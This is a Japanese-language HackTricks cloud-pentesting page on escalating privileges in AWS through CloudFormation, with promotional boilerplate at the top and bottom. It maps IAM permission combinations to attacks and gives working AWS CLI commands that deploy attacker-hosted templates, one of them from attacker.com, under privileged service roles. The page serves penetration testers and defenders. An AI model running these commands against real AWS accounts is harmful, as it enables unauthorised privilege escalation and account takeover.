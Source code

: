 # AWS - Cloudformation Privesc

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)をフォローする
* **ハッキングトリックを共有するために、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する**

</details>

## cloudformation

cloudformationに関する詳細情報はこちらを参照してください：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

これらの権限を持つ攻撃者は、**指定されたロールの権限でアクションを実行する**ために、カスタムテンプレートを使用して、自分のサーバーにホストされた**CloudFormationスタック**を作成することで、権限を**昇格**させることができます。
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
以下では、追加の権限 **`cloudformation:DescribeStacks`** を使用した **悪用例** が示されています:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在的な影響:** 指定されたcloudformationサービスロールへの特権昇格。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

この場合、既存のcloudformationスタックを**悪用**して更新し、前述のシナリオと同様に特権を昇格させることができます。
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy`権限を使用して、スタック上で**`UpdateStack`権限を自分に与え**、攻撃を実行できます。

**潜在的な影響:** 指定されたcloudformationサービスロールへの権限昇格。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

この権限を持っているが**`iam:PassRole`がない**場合でも、**使用されているスタックを更新**し、**すでにアタッチされているIAMロールを悪用**することができます。エクスプロイトの例については前のセクションを確認してください（更新時にロールを指定しないでください）。

`cloudformation:SetStackPolicy`権限を使用して、スタック上で**`UpdateStack`権限を自分に与え**、攻撃を実行できます。

**潜在的な影響:** すでにアタッチされているcloudformationサービスロールへの権限昇格。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

**ロールを渡し、ChangeSetを作成・実行**する権限を持つ攻撃者は、CreateStackやUpdateStackと同様に、**新しいcloudformationスタックを作成/更新し、cloudformationサービスロールを悪用**することができます。

次のエクスプロイトは、スタックを作成するために**ChangeSet権限**を使用した[**CreateStackのバリエーション**](./#iam-passrole-cloudformation-createstack)です。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 権限を使用して、スタックに対する `ChangeSet` 権限を自分自身に与え、攻撃を実行することができます。

**潜在的な影響:** cloudformation サービスロールへの特権昇格。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

これは前述の方法と同様ですが、**IAM ロールを渡さずに**、すでにアタッチされているものを悪用することができます。単にパラメータを変更します。
```
--change-set-type UPDATE
```
**潜在的影響:** クラウドフォーメーションサービスロールへの権限昇格。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻撃者はこれらの権限を悪用して、任意のクラウドフォーメーションロールを悪用するためにStackSetsを作成/更新する可能性があります。

**潜在的影響:** クラウドフォーメーションサービスロールへの権限昇格。

### `cloudformation:UpdateStackSet`

攻撃者は、この権限を悪用して、passRole権限なしで、アタッチされたクラウドフォーメーションロールを悪用するためにStackSetsを更新する可能性があります。

**潜在的影響:** アタッチされたクラウドフォーメーションロールへの権限昇格。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)を**フォロー**する。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
